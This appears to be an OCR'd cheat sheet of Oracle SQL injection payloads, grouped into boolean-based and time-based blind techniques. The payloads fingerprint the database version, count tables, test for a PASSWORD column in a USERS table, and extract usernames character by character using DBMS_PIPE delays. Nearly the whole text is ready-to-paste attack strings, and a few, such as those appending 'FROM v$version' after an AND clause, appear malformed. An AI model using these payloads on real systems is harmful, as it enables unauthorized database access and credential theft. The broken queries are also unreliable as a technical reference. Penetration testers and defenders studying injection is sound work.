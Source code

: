 **Boolean-Based SQLi**

*   **Checking Oracle Version:** Evaluates to true if the Oracle version starts with '1'.

    ```
    ' AND SUBSTR(BANNER, 1, 1) = '1' FROM v$version WHERE ROWNUM = 1 -- -
    ```
*   **Determining the Number of Tables:** Evaluates to true if there are more than 100 tables.

    ```
    ' AND (SELECT COUNT(*) FROM all_tables) > 100 -- -
    ```
*   **Checking Existence of a Column:** Evaluates to true if the `PASSWORD` column exists in the `USERS` table.

    ```
    ' AND (SELECT COUNT(*) FROM all_tab_columns WHERE table_name = 'USERS' AND column_name = 'PASSWORD') > 0 -- -
    ```
*   **Extracting Data from a Column:** Evaluates to true if the first character of the first username in the `USERS` table is 'a'.

    ```
    ' AND (SELECT SUBSTR(USERNAME, 1, 1) FROM USERS WHERE ROWNUM = 1) = 'a' -- -
    ```

**Time-Based SQLi**

*   **Basic Time Delay Test:** Causes the Oracle database to wait for 5 seconds. If the response is delayed, the injection point is likely vulnerable.

    ```
    ' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a', 5) -- -
    ```
*   **Conditional Time Delay:** Causes a 5-second delay if the condition `1=1` is true.

    ```
    ' AND CASE WHEN (1=1) THEN DBMS_PIPE.RECEIVE_MESSAGE('a', 5) ELSE NULL END -- -
    ```
*   **Checking Oracle Version:** Causes a 5-second delay if the Oracle version starts with '1'.

    ```
    ' AND CASE WHEN (SUBSTR(BANNER, 1, 1) = '1') THEN DBMS_PIPE.RECEIVE_MESSAGE('a', 5) ELSE NULL END FROM v$version WHERE ROWNUM = 1 -- -
    ```
*   **Checking Existence of a Table:** Causes a 5-second delay if the `USERS` table exists.

    ```
    ' AND CASE WHEN (EXISTS (SELECT 1 FROM all_tables WHERE table_name = 'USERS')) THEN DBMS_PIPE.RECEIVE_MESSAGE('a', 5) ELSE NULL END -- -
    ```
*   **Extracting Data from a Column:** Causes a 5-second delay if the first character of the first username in the `USERS` table is 'a'.

    ```
    ' AND CASE WHEN (SUBSTR((SELECT USERNAME FROM USERS WHERE ROWNUM = 1), 1, 1)='a') THEN DBMS_PIPE.RECEIVE_MESSAGE('a', 5) ELSE NULL END -- -
    ```
